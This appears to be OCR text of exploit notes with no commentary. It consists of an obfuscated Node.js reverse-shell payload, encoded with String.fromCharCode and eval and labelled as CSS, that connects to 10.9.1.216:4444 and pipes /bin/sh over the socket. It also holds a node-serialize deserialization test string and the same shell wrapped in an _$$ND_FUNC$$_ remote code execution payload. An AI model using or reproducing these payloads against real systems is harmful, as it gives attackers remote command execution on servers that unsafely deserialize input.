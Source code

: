 ~~~CSS
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,49,46,50,49,54,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)
~~~


_$$ND_FUNC$$_function (){ return 'deser_test'%3b+}()


_$$ND_FUNC$$_function+() {eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,49,46,50,49,54,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()
